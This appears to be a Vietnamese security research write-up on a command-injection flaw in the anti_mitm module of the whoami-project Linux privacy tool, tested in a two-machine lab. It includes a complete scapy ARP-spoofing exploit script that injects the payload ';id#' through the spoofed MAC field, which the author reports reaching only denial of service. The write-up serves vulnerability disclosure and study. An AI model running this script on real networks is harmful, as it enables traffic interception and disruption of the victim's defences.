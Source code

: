 ```yaml
---
title: "ARPSPOOF"
date: 2024-09-11
categories: [exploit]
tags: [command injection, arpspoof]
---
```


# Mở đầu
Trong bài viết này chúng ta sẽ cùng đi qua 1 open-source project khá nổi nhưng hiện giờ không còn maintain nữa đó là [whoami-project](https://github.com/owerdogan/whoami-project).
Đây là 1 công cụ về bảo mật cá nhân "giúp nâng cao quyền riêng tư và ẩn danh" trên các hệ điều hành Linux. Project này có 1 module tên là anti_mitm cho việc "Automatically bans the attacker when you come under a Man In The Middle attack", nhưng mà module này lại có 1 lỗ hổng khá nghiêm trọng mà mình nhận thấy và phía dưới ta sẽ cùng phân tích kĩ hơn.
                                                                                                                                      
## Setup môi trường
Trong scenario của attack này, ta sẽ có 2 machine:
- Attacker: Attacker machine mình sẽ sử dụng Kali VM với IP 192.168.98.132
- Victim: Phía victim machine sẽ là Ubuntu với IP 192.168.98.133
- Cài đặt project ở bên máy victim:

![image](https://gist.github.com/user-attachments/assets/279e460c-0242-4dc9-b15a-96670767d287)

# Phân tích
## Cấu trúc project
Sau khi cài đặt xong, ta khởi chạy chương trình như bên dưới và ta có thể thấy sẽ có vài option cho các arguments mà project cho phép.  

![image](https://gist.github.com/user-attachments/assets/de2140e6-07c4-4f8a-a7c4-7e59ff7843c3)

Khi chạy lệnh "sudo kali-whoami --start" ta sẽ được menu trông như sau:

![image](https://gist.github.com/user-attachments/assets/7fbba0cf-3736-4040-8725-a038dae73db9)

Có vẻ như trong menu trên thì đó là các module, function mà ta có thể chọn để sử dụng, thay vì nghịch thử các options thì mình đi tìm thẳng source code cho các function trên luôn, ở phía dưới sẽ là cấu trúc thư mục của project, ta có thể thấy là có vẻ như source code của các module, function trên sẽ nằm ở thư mục whoami-project/assets/scripts/

![image](https://gist.github.com/user-attachments/assets/80e512b7-f714-4d1b-9dec-b38b13ad7f35)

Sau 1 hồi đọc hết tất cả các file trong thư mục whoami-project/assets/scripts/, thì có 1 file mình để ý nhất đó là anti_mitm, và dưới đây là đoạn code của nó:

![image](https://gist.github.com/user-attachments/assets/08e6a403-de64-49b8-bc8d-650f993f1ae2)

Module này sẽ dùng cho việc ngăn việc bị tấn công Man in the middle (MITM) bằng cách kiểm tra những gói ARP gửi đến và nếu như có dấu hiệu cho việc ARP spoofing thì sẽ viết ra rule firewall để drop hết tất cả các requests đến từ địa chỉ MAC spoofing

## Phân tích luồng thực thi
Đọc file kali-whoami.sh, tức là file dùng để khởi động chương trình, như bên dưới ta sẽ thấy các options, các module, function của project được list ra:

![image](https://gist.github.com/user-attachments/assets/ad1912d3-b1f8-4ec7-bcbe-77cc293cfaa0)

Và dưới đây sẽ là đoạn code phụ trách cho việc khởi động module anti_mitm:

![image](https://gist.github.com/user-attachments/assets/5993e97d-46e1-402c-b5cc-ce2a16ce08c5)

Ta thấy chương trình sẽ cần ta chạy ở quyền root, và nếu ta chọn module anti_mitm thì sẽ tương đương với việc chạy command:
```
sudo python3 /usr/share/kali-whoami/assets/scripts/anti_mitm
```
Giờ ta sẽ đi vào đoạn code và cách hoạt động của file anti_mitm.

## Phân tích lỗ hổng

![image](https://gist.github.com/user-attachments/assets/663b76b7-75d1-4046-9af3-72a8131fd183)

![image](https://gist.github.com/user-attachments/assets/b76a6475-0dfe-4243-9eec-ceafa63b8080)

![image](https://gist.github.com/user-attachments/assets/938dce10-4330-4d81-98b4-7fdce3cd4be5)

![image](https://gist.github.com/user-attachments/assets/3e3ae611-6a8b-4706-80cb-05ab2b9762a3)

![image](https://gist.github.com/user-attachments/assets/76f1a445-d809-4dd6-ad10-1bac2863a9af)

# Khai thác

Nhưng mà quan trọng là nếu ta thực sự có thể command injection được vào đoạn command kia thì ta sẽ thành được cả root của machine, đơn giản là vì đoạn code này sử dụng scapy, mà scapy sử dụng Python socket library để tạo raw sockets, và để tạo được raw sockets thì sẽ phải cần quyền của root.

Ref: https://stackoverflow.com/questions/22421290/scapy-operation-not-permitted-when-sending-packets#:~:text=Scapy%20needs%20root%20privileges%20to,the%20Linux%20raw%20man%20pages

Đây sẽ là đoạn code exploit của mình:
```
import scapy.all as scapy 
import time 
  
def get_mac(ip): 
    arp_request = scapy.ARP(pdst = ip) 
    broadcast = scapy.Ether(dst ="ff:ff:ff:ff:ff:ff") 
    arp_request_broadcast = broadcast / arp_request 
    answered_list = scapy.srp(arp_request_broadcast, timeout = 5, verbose = False)[0] 
    return answered_list[0][1].hwsrc 
  
def spoof(target_ip, spoof_ip): 
    packet = scapy.ARP(op = 2, pdst = target_ip, hwdst = get_mac(target_ip), psrc = spoof_ip, hwsrc=";id#") # Payload ở đây
    scapy.send(packet, verbose = False) 
  
  
def restore(destination_ip, source_ip): 
    destination_mac = get_mac(destination_ip) 
    source_mac = get_mac(source_ip) 
    packet = scapy.ARP(op = 2, pdst = destination_ip, hwdst = destination_mac, psrc = source_ip, hwsrc = source_mac) 
    scapy.send(packet, verbose = False) 
      
  
target_ip = "192.168.98.133"
gateway_ip = "192.168.98.1"
  
try: 
    sent_packets_count = 0
    while True: 
        spoof(target_ip, gateway_ip) 
        spoof(gateway_ip, target_ip) 
        sent_packets_count = sent_packets_count + 2
        print("\r[*] Packets Sent "+str(sent_packets_count), end ="") 
        time.sleep(2)
  
except KeyboardInterrupt: 
    print("\nCtrl + C pressed.............Exiting") 
    restore(gateway_ip, target_ip) 
    restore(target_ip, gateway_ip) 
    print("[+] Arp Spoof Stopped") 

```
Đoạn code trên sẽ gửi packet kèm với địa chỉ MAC malicious như trên để test, mỗi 2 giây đoạn code sẽ gửi packet này lại 1 lần.

![image](https://gist.github.com/user-attachments/assets/912db067-6bec-4e3e-a206-fb88a00531b0)

Sau khi thực thi đoạn code exploit thì ở bên phía attacker, nếu như ta gọi đến module đó, và quan trọng là module này chắc chắn phải ở quyền của root thì mới có thể chạy được ở phía victim:

![image](https://gist.github.com/user-attachments/assets/1576e27c-06c1-4066-bac5-1905b38a8bdc)

Ta thấy sau khi thực hiện ARP attack, payload của ta sẽ được bytes object và khi đi vào code sẽ trở thành cộng chuỗi với bytes và xảy ra lỗi. 

Vậy liệu có cách để mà làm cho payload này trở thành hoạt động được không, nó cũng đồng nghĩa với việc là ta cần phải làm cho payload tự động decode lại thành string, nhưng đáng buồn là ta chỉ làm được 9 điểm thôi, câu điểm 10 để lại vậy =)))) Impact đến đây dừng lại ở DOS nhưng ít ra ta cũng có cách để ngăn cho rule firewall không được viết ra khi victim sử dụng service. 
                                                                                                                              
                                                                                                                                      
